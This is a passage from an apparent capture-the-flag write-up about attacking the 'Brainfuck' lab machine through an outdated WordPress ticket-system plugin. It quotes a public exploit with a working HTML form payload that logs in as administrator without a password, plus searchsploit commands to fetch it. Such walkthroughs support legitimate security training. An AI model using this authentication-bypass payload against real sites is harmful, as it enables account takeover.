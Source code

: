 
# Exploitation
Within the output we know that wp-support-plus-responsive-ticket-system's Version: 7.1.3 is out of date. 

```bash
Google wp-support-plus-responsive-ticket-system exploit 7.1.3
```
https://www.exploit-db.com/exploits/41006

we observe the description of this exploit:
```txt
# Exploit Title: WP Support Plus Responsive Ticket System 7.1.3 Privilege Escalation
# Date: 10-01-2017
# Software Link: https://wordpress.org/plugins/wp-support-plus-responsive-ticket-system/
# Exploit Author: Kacper Szurek
# Contact: http://twitter.com/KacperSzurek
# Website: http://security.szurek.pl/
# Category: web
 
1. Description

You can login as anyone without knowing password because of incorrect usage of wp_set_auth_cookie().

http://security.szurek.pl/wp-support-plus-responsive-ticket-system-713-privilege-escalation.html

2. Proof of Concept

<form method="post" action="http://wp/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="administrator">
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>

Then you can go to admin panel.
```


## Exploit by wp-support-plus
We access the wp-admin page:
```bash
https://brainfuck.htb/wp-admin
```

![[Brainfuck-03.png]]

```bash
# Copy the exploit code
searchsploit WP support plus
searchsploit -m 41006
cat 41006.txt
# create a html with the code
vi exploit.html
```

